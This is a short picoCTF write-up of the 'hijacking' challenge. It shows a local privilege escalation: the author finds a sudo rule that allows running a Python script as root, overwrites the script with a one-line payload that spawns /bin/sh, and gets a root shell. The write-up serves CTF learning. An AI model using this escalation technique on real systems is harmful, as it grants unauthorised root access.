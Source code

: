 # Challange Info

Name : hijacking

Difficulty : Medium

Category : Binary Exploitation

Link : https://play.picoctf.org/practice/challenge/352?category=6&page=2

(Note : I will suggest look for other writeups as well. As this is not intended way to solve the challange. The intended writeup will help with better understanding of python and it's libraries and how it works.)

Suggested writeup : https://github.com/snwau/picoCTF-2023-Writeup/blob/main/Binary%20Exploitation/hijacking/hijacking.md

# Writeup

The challange provides SSH details.

Logging in via ssh.

```bash
ssh picoctf@saturn.picoctf.net -p 60826
```

Listing all files in home directory.

```bash
ls -al
```

The file which caught my eye was .server.py.

> -rw-r--r-- 1 root    root     375 Feb  7  2024 .server.py

But as it's not writeable if we try to edit the file it will drop to picoctf user from root.

So we check if picoctf is allowed to run commands as sudo.

```bash
sudo -l
```

> User picoctf may run the following commands on challenge:
> 
>    (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py

We can run the python file as sudo.

Using vim to edit the file.

```bash
vim .server.py
```

Replacing file contents with following :

```python
import os
os.system("/bin/sh")
```

(Note : We have to use vim as it allows file to drop from root to picoctf and nano is not avalaible on the server)

In order to exit vim.

```bash
wq!
q!
```

This will give error but when we quit vim we'll get the file dropped from root to picoctf user it dosen't matter as we can anyway run the file as root user via sudo.

Running the python script as sudo. 

(Note : That the allowed config uses relative path for .server.py so we also have to do the same or it'll give us error that we are not allowed to execute the file. For python3 it gets the relative path from PATH variable.)

```bash
sudo python3 /home/picoctf/.server.py
```

We get root shell.

Navigating to /root and listing all files.

```bash
cd /root
ls -al
```

> -rw-r--r-- 1 root root   43 Sep 26 19:29 .flag.txt
